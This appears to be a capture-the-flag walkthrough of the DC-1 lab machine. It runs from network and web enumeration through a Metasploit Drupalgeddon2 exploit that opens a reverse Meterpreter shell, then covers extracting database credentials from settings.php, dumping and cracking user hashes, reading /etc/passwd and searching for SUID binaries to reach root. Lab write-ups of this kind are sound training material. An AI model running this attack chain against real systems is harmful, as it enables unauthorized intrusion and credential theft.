# DC-1 - Enumeration & Exploitation

## Machine Information

- **Target Machine:** `DC-1`
- **Target IP:** `192.168.0.107`
- **Platform:** Local Lab

---

## Step 1 — Discovering the Target IP

```bash
netdiscover -r <Attacker Machine IP>
```

- Used `netdiscover` to perform a network scan and identify live hosts on the local network.
- Discovered the target machine at IP address: `192.168.0.107`
- Identified the hostname as: **PCS Systemtechnik GmbH**



---

## Step 2 — Port Scanning

```bash
nmap 192.168.0.107 -sV -sC -T4
```

- Ran a full service and script scan against the target.
- Discovered **3 open ports:**
  - `SSH`
  - `HTTP`
  - `RPCBind`


---

## Step 3 — Web Application Enumeration

```bash
http://192.168.0.107
```

- Visited the HTTP service running on the target in a browser.
- Confirmed a website was being hosted.
- Identified the **CMS** as **Drupal** via the HTTP generator meta tag in the page source.



---

## Step 4 — Subdirectory Enumeration

```bash
dirb http://192.168.0.107
```

- Ran `dirb` against the target to brute-force and discover hidden subdirectories.
- No useful or sensitive information was found from the results.



---

## Step 5 — Confirming Drupal Version via Nmap

```bash
nmap 192.168.0.107 -sV -sC -T4
```

- Re-examined the detailed Nmap scan output.
- Confirmed the target is running **Drupal 7**, which is a known vulnerable version.



---

## Step 6 — Searching for an Exploit

- Researched known vulnerabilities for **Drupal 7**.
- Identified a critical Remote Code Execution vulnerability: **Drupalgeddon2**
- Found the exploit available inside **Metasploit Framework** (`msfconsole`).



---

## Step 7 — Running the Exploit in Metasploit

```bash
msfconsole
search drupalgeddon2
use exploit/multi/http/drupal_drupageddon2
set RHOSTS 192.168.0.107
set LHOST <Attacker Machine IP>
run
```

- Launched `msfconsole` and searched for the Drupalgeddon2 exploit.
- Configured the required options:
  - `RHOSTS` — set to the target IP.
  - `LHOST` — set to the attacker machine IP.
- Executed the exploit.



---

## Step 8 — Meterpreter Shell Obtained

```bash
ls
```

- The exploit executed successfully and returned a **Meterpreter shell**.
- Listed the current directory contents to begin post-exploitation enumeration.



---

## Step 9 — Flag 1 Found

```bash
cat flag1.txt
```

- Spotted `flag1.txt` in the current directory listing.
- Retrieved and read the first flag.



---

## Step 10 — Flag 2 Found in settings.php

```bash
cd /var/www/sites/default
cat settings.php
```

- Navigated to `/var/www/sites/default`, a well-known Drupal configuration directory.
- Opened `settings.php` and discovered **Flag 2** embedded inside the file.



---

## Step 11 — Credentials Extracted from Flag 2

- Inside `settings.php`, found database credentials alongside Flag 2:
  - **Database:** `drupaldb`
  - **Username:** `dbuser`
  - **Password:** `R0ck3t`
- Suspected the credentials could be reused to access the MySQL database.



---

## Step 12 — Dumping MySQL Tables

```bash
mysql -u dbuser -pR0ck3t drupaldb -e "SHOW TABLES;"
```

- Connected to the MySQL database using the discovered credentials.
- Dumped all available tables from the `drupaldb` database to identify where user data was stored.



---

## Step 13 — Extracting User Hashes

```bash
mysql -u dbuser -pR0ck3t drupaldb -e "SELECT uid,name,mail,pass FROM users;"
```

- Queried the `users` table to extract stored credentials.
- Found **2 users** with their corresponding **password hashes**.



---

## Step 14 — Cracking the Password Hash

- Copied the admin user's password hash.
- Used [hashes.com](https://hashes.com) to crack the hash online.
- Successfully recovered the **plaintext password** for the admin account.



---

## Step 15 — Logging into Drupal as Admin

```bash
http://192.168.0.107
```

- Navigated to the Drupal login page in the browser.
- Logged in using the cracked admin credentials.
- Gained **administrative access** to the Drupal CMS.



---

## Step 16 — Locating Flag 4 via /etc/passwd

```bash
cat /etc/passwd | tail -n 5
```

- Read the `/etc/passwd` file to enumerate local system users.
- Identified a user called **flag4** along with its home directory path.



---

## Step 17 — Retrieving Flag 4

```bash
cd /home/flag4
cat flag4.txt
```

- Navigated to the `flag4` user's home directory at `/home/flag4`.
- Retrieved and read `flag4.txt`.



---

## Step 18 — Privilege Escalation Enumeration

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -perm -u=s -type f 2>/dev/null
```

| Command | Description |
|---------|-------------|
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Spawns a fully interactive TTY shell |
| `find /` | Search recursively from the root directory |
| `-perm -u=s` | Find files with the SUID bit set |
| `-type f` | Limit results to regular files only |
| `2>/dev/null` | Suppress permission denied errors |

- Spawned a stable interactive shell using Python3.
- Searched the entire filesystem for SUID-enabled binaries that could be used to escalate to root.
- Identified a binary that could be exploited to gain root access.



---

## Step 19 — Final Flag (Root)

```bash
find /root
cat /root/thefinalflag.txt
```

- Used `find` to locate the final flag inside the `/root` directory.
- Read the contents of `thefinalflag.txt` to complete the machine.



---

## Summary

| Stage | Detail |
|-------|--------|
| **Target Discovery** | `netdiscover` → `192.168.0.107` |
| **Open Ports** | SSH, HTTP, RPCBind |
| **CMS Identified** | Drupal 7 |
| **Initial Access** | Drupalgeddon2 RCE → Meterpreter shell |
| **Flag 1** | Found in web root directory |
| **Flag 2** | Found in `/var/www/sites/default/settings.php` |
| **Credentials** | Extracted from DB → hash cracked via hashes.com |
| **Flag 4** | Found in `/home/flag4/flag4.txt` |
| **Privilege Escalation** | SUID binary enumeration → root shell |
| **Final Flag** | Retrieved from `/root/thefinalflag.txt` |

